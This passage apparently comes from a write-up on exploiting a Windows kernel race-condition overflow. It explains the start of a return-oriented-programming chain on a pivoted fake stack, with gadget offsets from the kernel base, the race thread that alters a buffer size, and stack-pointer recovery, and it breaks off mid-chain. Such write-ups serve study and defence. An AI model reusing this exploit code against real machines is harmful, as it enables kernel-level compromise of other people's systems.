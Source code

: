 Notice that I store the value in `rsp` in `rbp`. This is so I can recover the stack later. The second gadget pivots the stack.

## The Beginnings of a ROP Chain

We start the next ROP chain on the fake stack:

```c
index = 0;
rop = (QWORD*)STACK_PIVOT_ADDR;

// stop the race thread, no longer needed
*(rop + index++) = (QWORD)kernelBase + 0x5f1535;			// pop rax ; ret ;
*(rop + index++) = (QWORD)&raceWon;                         // raceWon var address is now in rax
*(rop + index++) = (QWORD)kernelBase + 0x646305;			// pop rcx ; ret ;
*(rop + index++) = (QWORD)0x01;
*(rop + index++) = (QWORD)kernelBase + 0x233314;			// mov qword [rax], rcx ; ret ;
```

This first part sets a global variable `raceWon` in user-mode to `0x1` which stops the race thread from running, after all we have won the race and triggered the exploit (I have included the race thread for clarity):

```c
// this is the function trying to win the race
DWORD WINAPI ChangeStruct(void* args)
{
    while (!raceWon)
    {
        userData.sizeOfData = sizeOfBufferToOverflow;
        Sleep(10);
    }
    return NULL;
}
```

The next bit deals with taking the value in `rbp` and adding `0x58` to it as this is where we want to return to on the 'real' stack:

```c
// store the old stack pointer
QWORD aBuffer = 0x0;
printf("[+] aBuffer address: 0x%p\n", &aBuffer);

*(rop + index++) = kernelBase + 0x5f1535;			        // pop rax ; ret ;
*(rop + index++) = kernelBase + 0x5f1535;			        // pop rax ; ret ;
*(rop + index++) = kernelBase + 0x3de15e;			        // mov r8, rbp ; mov rcx, rdi ; call rax ;
*(rop + index++) = kernelBase + 0x9411ea;			        // mov rcx, r8 ; mov rax, rcx ; ret ;

// add  0x58 to the restored rsp
*(rop + index++) = kernelBase + 0x3d5c4a;			        // xchg rax, rcx ; ret ;
*(rop + index++) = kernelBase + 0x646305;			        // pop rcx ; ret ;
*(rop + index++) = (QWORD)0x58;     			            // 0x58
*(rop + index++) = kernelBase + 0x63ed4f;			        // add rax, rcx ; ret ;
*(rop + index++) = kernelBase + 0x3d5c4a;			        // xchg rax, rcx ; ret ;
*(rop + index++) = kernelBase + 0x5f1535;			        // pop rax ; ret ;
*(rop + index++) = (QWORD)&aBuffer;     			        // a buffer
*(rop + index++) = kernelBase + 0x233314;			        // mov qword [rax], rcx ; ret ;
```
